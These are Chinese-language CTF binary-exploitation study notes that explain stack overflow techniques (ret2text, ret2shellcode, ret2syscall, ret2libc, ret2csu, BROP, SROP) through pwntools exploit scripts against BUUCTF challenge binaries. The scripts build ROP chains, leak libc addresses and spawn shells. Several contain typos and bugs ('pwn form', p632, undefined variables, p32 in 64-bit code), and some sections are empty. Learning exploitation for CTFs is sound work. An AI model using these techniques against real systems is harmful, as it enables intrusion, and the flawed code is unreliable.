



# 注意

```
当payload构造空字节，使用'\x00'来代替
大多数pwn题的ELF都是动态链接的
```

# ret2text

## 原理

通过溢出，对返回地址进行劫持，来获取shell

```c
#include<stdio.h>
int main(){
	char str[8];
  gets(str);	//由于gets函数缺陷，可以输入超出缓冲区的数据大小，进而覆盖掉返回地址
  return 0;
}
```

gets() ：遇到换行符才停止读取，读取的数据超过缓冲区，就会造成溢出，劫持返回函数

read() ：参数三规定读取大小，当大于数据的大小，就会造成溢出

## 简单栈溢出编写

```python
from pwn form *
#p = process('./pwn')
p = remote('node.buuoj.cn',8888)
payload = cyclic(8) + p64(0x12345678)
p.sendline(payload)
p.interactive()
```

# ret2shellcode

## 原理

利用栈溢出，来实现劫持返回地址，返回到准备好的shellcode来进行取shell

## shellcode生成

### 手写

### 工具

在 pwntools 中，shellcraft 模块用于生成各种类型的 shellcode，例如反弹 shell、执行系统调用等。



```python
shellcraft.sh()	#默认生成的shellcode是32位的
shellcraft.amd64.sh()	#生成64位的
p.sendline(asm(shellcraft.sh()))	#把shellcode转成机器码

shellcode = asm(shellcraft.sh())
shellcode = shellcode.ljust(120,b'a')
```

一般来说，靶机基本都开启了ALSR，所以不会对栈写入shellcode，

# ret2syscall

## 原理

利用栈溢出漏洞来，劫持返回地址，注入系统调用指令，来操作程序已有的系统调用来执行shell，不需要注入shellcode

## 情况一

当存在system函数，但是没有要执行的命令，刚好存在字符串"/bin/sh"的地址



想取得system函数的地址可以使用，elf.plt[]或者elf.sym[]

获取"/bin/sh"字符串的地址可以使用，

### 32位

```python
from pwn form *
context(os='linux',arch='i386',log_level='debug')
#p = process('./pwn')
p = remote('node.buuoj.cn',8888)
elf.ELF('./pwn')

#获取system地址
system_addr = elf.sym['system']	#获得一个符号地址
#system_addr = elf.symbols['system']	#获得多个符号地址
#system_addr = elf.plt['system']
#system_addr = 0x12345678

#获取"/bin/sh"地址
bin_sh = next(elf.search(b'/bin/sh')) #next是指搜到的第一个元素

bin_sh = 0x12345678
payload = cyclic(8) + p32(system_addr) + p32(0) + p32(bin_sh)	#中间需要加一个p32(任意地址)，32位调用完函数之后，后面都要跟一个返回地址，要符合函数调用约定
p.sendline(payload)
p.interactive()
```

### 64位

由于64传递参数，会先用6个寄存器传参，往后才使用栈传递参数，所以需要用简单的ROP来构造"/bin/sh"

```python
#使用ROPgadget来获取pop rdi + ret 的地址
ROPgadget --binary pwn --only "pop|rdi|ret"

from pwn form *
context(os='linux',arch='i386',log_level='debug')
#p = process('./pwn')
p = remote('node.buuoj.cn',8888)
system_addr = 0x12345678
bin_sh = 0x12345678
pop_rdi = 0x12345678
payload = cyclic(8) + p32(pop_rdi) + p32(bin_sh) + p32(system_addr)
p.sendline(payload)
p.interactive()
```

## 情况二

当存在system函数，但是没有"/bin/sh"

### 32位

```

```

### 64位

```

```


## 情况三

当没有system函数，也没有"/bin/sh"，我们就需要自己使用ROPgadget构造一个后面函数所以操作系统的内核函数，想要调用需要通过寄存器传入代号，当要执行int 0x80的这个汇编代码时，我们要确保，寄存器已经传入了对应的参数

```shell
#安装ROPgadget
python -m pip install ROPgadget
#在程序的.text段中寻找，可以组成payload的函数
ROPgadget --binary pwn --only "pop|ret"
#构造execve("/bin/sh",0,0),寄存器必须是以下值，才能执行int 0x80

eax=0xb ebx='/bin/sh' ecx=0 edx=0	#32位设置
rax=0x3b rdi='/bin/sh' rdx=0 rsi=0	#64设置
#写入"/bin/sh"的地方有

```

### 32位

32位程序是利用int 80来进行系统调用read函数，也可以直接使用已有的read函数，但是得需要pop_ret的地址满足条件才行

```python
from pwn import *
context(os='linux',arch='i386',log_level='debug')
#p = remote('node.buuoj.cn',8888)
p = process('./pwn')
elf = ELF('./pwn')
pop_eax = 0x12345678
pop_edx_ecx_ebx = 0x12345678
int_80 = 0x12345678
#bin_sh = 0x12345678 当ELF中存在，可直接调用

payload = flat(cyclic(60),p32(pop_eax),p32(0xb),p32(pop_edx_ecx_ebx),p632(0),p32(0),p32(sh_addr),p32(int_80))
p.sendline(payload)
p.interactive()
```

### 64位

64位程序利用syscall来进行系统调用read函数写入"/bin/sh"，也可以直接使用已有的read函数

利用execve系统函数进行调用，设置rax=0x3b

```python

```

# ret2libc

## 原理

利用栈溢出漏洞，劫持返回地址，利用程序已链接库中的函数，来进行取shell不需要注入自定义的 shellcode 或者系统调用指令。需要了解libc和延迟绑定，了解ELF执行后，第一次调用函数，会实现一个延迟绑定当函数没system和"/bin/sh"时，就需要调用libc里面的，首先**找到libc的基地址**，通过已知函数的地址，输出在libc中的地址，来计算基地址

```shell
#需要Libcsearcher库
git clone https://github.com/lieanu/LibcSearcher.git
sudo python set-up.py develop
rm -rf Libc-database
git clone https://github.com/niklasb/libc-database.git
./get ubuntu debain
```


## 32位

```python
from pwn import *
from LibcSearcher import *
context(os='linux',arch='i386',log_level='debug')
p=remote('node5.buuoj.cn',29779)
#p=process('./2018_rop')
elf=ELF('./2018_rop')

main=elf.sym['main']
write_plt=elf.plt['write']
write_got=elf.got['write']

payload1=flat(cyclic(0x8c),p32(write_plt),p32(main),p32(1),p32(write_got),p32(4))
p.sendline(payload1)
write_addr=u32(p.recv(4))
print(hex(write_addr))

libc=LibcSearcher('write',write_addr)
base=write_addr-libc.dump('write')
system_addr=base+libc.dump('system')
bin_sh=base+libc.dump('str_bin_sh')
print(hex(system_addr))
print(hex(bin_sh))

payload2=flat(cyclic(0x8c),p32(system_addr),p32(1),p32(bin_sh))
p.sendline(payload2)
p.interactive()
```


## 64位

```python
#题目来自Buuctf ciscn_2019_c_1
from pwn import *
from LibcSearcher import *
context(os='linux',arch='amd64',log_level='debug')
#p = remote('node5.buuoj.cn',28352)
p = process('./ciscn_2019_c_1')
elf = ELF('./ciscn_2019_c_1')
#libc = ELF('/usr/lib/x86_64-linux-gnu/libc.so.6')
#gdb.attach(p)

pop_rdi=0x400c83
ret_addr=0x4006b9
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
main_addr = elf.symbols['main']
#第一次溢出，ROP出puts的真实地址
p.sendlineafter('choice!\n',b'1')
payload = flat('\0',b'A'*0x57,p64(pop_rdi),p64(puts_got),p64(puts_plt),(main_addr))
p.sendlineafter('encrypted\n',payload)
puts_addr = u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00')) #接收puts地址
########本地libc找地址#########
#libc_put = libc.sym['puts']
#base = puts_addr-libc_put
#libc_system = libc.sym['system']
#system_addr = libc_system
#libc_bin = 0x19604F
#bin_sh = base +libc_bin
##############################

#利用LibcSearcher找到地址
libc = LibcSearcher('puts',puts_addr)
base = puts_addr - libc.dump('puts') #基地址
system_addr = base+libc.dump('system')
bin_sh = base+libc.dump('str_bin_sh')

#二次溢出，取shell
p.sendlineafter('choice!\n',b'1')
payload2 = flat(b'\0',b'A'*0x57,p64(ret_addr),p64(pop_rdi),p64(bin_sh),p64(system_addr))
p.sendlineafter('encrypted\n',payload2)
p.interactive()
```

# ret2cus

利用初始化函数__libc_csu_init

一般的程序都会调用libc中的函数，而此函数便是来将libc初始化的，故此函数几乎是每一个程序所必备的。一般可以用来让`rdx=0`

## 32位

32位采用`int 80`指令调用底层

## 64位



可以看到`pop r13`和`mov rdx,r13`只要把`r13=0`，就可以把`rdx=0`,64位采用`syscall`指令

```python
from pwn import *
context(os='linux',arch='amd64',log_level='debug')
p=remote('node5.buuoj.cn',28262)
#p=process('./ciscn_s_3')
elf=ELF('./ciscn_s_3')
pop_rdi=0x4005a3	#rdi = 0
pop_rsi_r15=0x4005a1	#rsi = 0
pop_rdx_6=0x40059A	#csu第一段函数
mov_rdx_0=0x400580	#csu第二段函数，里面有call r12的函数
mov_rax_0x3b=0x4004E2	#程序给的系统调用函数,mov rax,0x3b ret
syscall=0x400517
vuln_addr=elf.sym['vuln']

payload1=flat(b'/bin/sh\x00',cyclic(0x8),p64(vuln_addr))#由于没有pop rbp，直接覆盖到old_rbp就可以，所有少了8字节
p.send(payload1)
p.recv(0x20)
bin_sh=u64(p.recv(8))-0x118 #泄露/bin/sh的真实地址
print(hex(bin_sh))

payload2=flat(b'/bin/sh\x00',cyclic(0x8),p64(pop_rdx_6),0,0,p64(bin_sh+0x50),0,0,0,p64(mov_rdx_0))
#bin_sh+0x50是对于下面pop_rdi=0x4005a3地址的偏移，call的push下一地址会和执行的pop_rdi相互抵消了，所有实际上就是绕过了call函数，继续执行下面的函数
payload2+=flat(p64(pop_rdi),p64(bin_sh),p64(pop_rsi_r15),0,0,p64(mov_rax_0x3b),p64(syscall))
p.send(payload2)
p.interactive()
```


# ROP编程

## 栈迁移

# BROP

`brop`是一项非常巧妙的技术，在无法获取到二进制程序和`libc`的情况下进行远程溢出

## 寻找溢出长度

```python
from pwn import *
def getsize():
  i=1
  while 1:
    try:
      p=remote('node5.buuoj.cn',9999)
      p.recvuntil('password?\n')
      p.send(b'A'*i)
      data=p.recv()
      p.close()
      if not data.startswith('No password'):
        return i-1
      else:
        i+=1
     except EOFError:
        p.close()
        return i-1
      
size=getsize()
print(size)
```

## 寻找stop gadgets

## 寻找 brop gadgets

## 寻找 puts 函数的 plt 地址

## 寻找 puts 函数的 got 地址并 [dump](https://so.csdn.net/so/search?q=dump&spm=1001.2101.3001.7020) plt 表

# SROP

`Sigreturn`则是一种特殊的系统调用，它将程序的执行状态恢复到之前通过信号处理函数保存的状态，我们可以恶意构造`Sigreturn`函数进行篡改寄存器和栈，以达到getshell目的

系统调用号查看路径`/usr/include/x86_64-linux-gnu/asm/unistd_64.h`或者`unistd_32.h`
